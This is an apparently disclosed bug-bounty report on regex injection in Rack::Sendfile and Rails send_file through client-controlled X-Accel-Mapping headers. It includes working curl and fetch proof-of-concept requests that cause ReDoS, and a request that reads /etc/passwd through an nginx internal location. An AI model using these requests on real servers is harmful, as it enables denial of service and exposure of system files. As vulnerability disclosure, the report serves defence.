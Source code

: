 # Regex Injection from request header (Rack::Sendfile, send_file)

## Report Details
- **Report ID**: 1057216
- **URL**: https://hackerone.com/reports/1057216
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-12-12T02:57:06.870Z
- **Disclosed**: 2021-06-15T17:43:06.159Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
I have confirmed that [Rack::Sendfile](https://github.com/rack/rack/blob/v2.2.2/lib/rack/sendfile.rb) and the Rails [send_file](https://api.rubyonrails.org/classes/ActionController/DataStreaming.html#method-i-send_file) that handles it have a problem handling custom headers for request.

It is expected that the `X-Sendfile-type` and `X-Accel-Mapping` headers will be sent from nginx, but these headers can also be sent from a user agent such as a browser. This allows Regexp injection to cause unexpected regular expression behavior.

https://github.com/rack/rack/blob/v2.2.2/lib/rack/sendfile.rb#L143

```ruby
def variation(env)
  @variation ||
    env['sendfile.type'] ||
    env['HTTP_X_SENDFILE_TYPE']
end

def map_accel_path(env, path)
  if mapping = @mappings.find { |internal, _| internal =~ path }
    path.sub(*mapping)
  elsif mapping = env['HTTP_X_ACCEL_MAPPING']
    mapping.split(',').map(&:strip).each do |m|
      internal, external = m.split('=', 2).map(&:strip)
      new_path = path.sub(/^#{internal}/i, external)
      return new_path unless path == new_path
    end
    path
  end
end
```    

If not set on the application side, the value used for `internal` can be sent from the request header.

This problem seems to be a problem on the Rack side, but since it has a large impact on Rails and a vulnerability in Rack has been reported to Rails in the past(https://hackerone.com/reports/431561, https://hackerone.com/reports/895727), I will submit it here. 

### Case 1. ReDoS via Regex Injection

Example of rails controller.

```ruby
class FilesController < ApplicationController
  def index
    send_file("./README.md")
  end
end
```

Or a simple example of rack app.

```ruby
class SendFile
  def call(env)
    [ 200,
      {        },

      File.open("./config.ru")
    ]
  end
end

use Rack::Sendfile
run SendFile.new
```

An example of a curl attack on these servers.

```
curl -i -H 'X-Sendfile-type:X-Accel-Redirect' -H 'X-Accel-Mapping:(([^\r])+.)+[^\r]([\r])+=/www/' http://localhost:3000/files
```

[ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS#redos-via-regex-injection) is possible because the value of `X-Accel-Mapping` is used for the regular expression.

Executing the curl code will increase the CPU usage on the server side.In puma, the server becomes unresponsive when requests are made for the number of wokrers. When I try to start puma threads as 5 on my local machine, running curl 5 times makes the server unresponsive!

```
$ time ruby -e 'puts ("a"*32).gsub(/^(([^\r])+.)+[^\r]([\r])+/, "test")'
...
0.23s user 0.04s system 56% cpu 0.479 total

$ time ruby -e 'puts ("a"*40).gsub(/^(([^\r])+.)+[^\r]([\r])+/, "test")'
...
8.03s user 0.04s system 97% cpu 8.242 total

$ time ruby -e 'puts ("a"*44).gsub(/^(([^\r])+.)+[^\r]([\r])+/, "test")'
...
55.92s user 0.16s system 99% cpu 56.370 total
```

How long it actually takes depends on the depth of the path where the server is located. It is also possible to send a more dangerous regular expression than the example.

From javascript it will be as follows.

```javascript
fetch("http://localhost:3000/file", {headers: {"X-Sendfile-type":"X-Accel-Redirect", "X-Accel-Mapping":"(([^\\r])+.)+[^\\r]([\\r])+=/www/"}})
```


### Case 2. Unexpected access to internal

Example nginx.conf.

```
events {
    worker_connections  16;
}
http {
    server {
        listen 80;
        server_name localhost;

        location /rails {
            proxy_pass http://rails_app/;
            
            proxy_redirect off;
        }

        location /secret_internal {
            internal;
            alias /etc/passwd;
        }
    }
}
```

```
curl -i -H 'X-Sendfile-type:X-Accel-Redirect' -H 'X-Accel-Mapping:/.*=/secret_internal' http://localhost:80/rails/files
```

You can get `/etc/passwd`, a file that should not be accessible.

## Impact

Affects various Rails applications that use send_file with [Rack 1.1.0](https://github.com/rack/rack/commit/981f182bcfa1b848aa9e66c72500d855f6ee77ff
) and later versions.

This can be confirmed by requesting a location that handles file downloads, so if this vulnerability information is disclosed, it may be tried in many locations. It is difficult to guess where case2 will occur, but case1 is simple. Especially in OSS, the attacker can easily check because the place of use is known.

The following patterns are affected.

* Applications that do not set a value for `x_sendfile_header`.
If set `config.action_dispatch.x_sendfile_header = ''`, it will be workaround.

* Using X-Accel-Redirect, but X-Accel-Mapping is not set.
It becomes workaround by adding X-Accel-Mapping to all proxy settings of nginx.

I think it's safe to stop using custom headers for requests in Rack. But it's a breaking change.

## Attachments
No attachments
